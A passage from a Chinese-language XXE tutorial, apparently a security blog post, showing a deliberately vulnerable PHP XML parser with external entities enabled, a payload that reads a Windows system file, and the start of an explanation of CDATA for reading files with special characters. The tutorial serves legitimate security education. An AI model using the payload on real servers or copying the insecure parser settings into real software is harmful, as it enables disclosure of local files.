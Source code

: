 **示例代码：**

> ==php的关键函数==
>
> dom = new DOMDocument();
>
> \$dom->loadXML(\$xmlfile, LIBXML_NOENT \| LIBXML_DTDLOAD); 

**xml.php**

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```

**payload:**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

**结果如下图：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002645-e7e63e5a-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002645-e7e63e5a-ec17-1.png)

但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利，**那么我么要是换成下面这个文件呢？**

**如图所示：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002645-e8138df6-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002645-e8138df6-ec17-1.png)

我们试一下：

**结果如下图：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002646-e844e770-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002646-e844e770-ec17-1.png)

可以看到，不但没有读到我们想要的文件，而且还给我们报了一堆错，怎么办？这个时候就要祭出我们的另一个神器了------CDATA ，简单的介绍如下(引用自我的一片介绍 XML 的博客)：

> 有些内容可能**不想让解析引擎解析**执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
> " 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记
>
> ```xml-dtd
> <![CDATA[
> XXXXXXXXXXXXXXXXX
> ]]>
> ```
>
> 可以输入任意字符除了 ]]> 不能嵌套
>
> 用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来

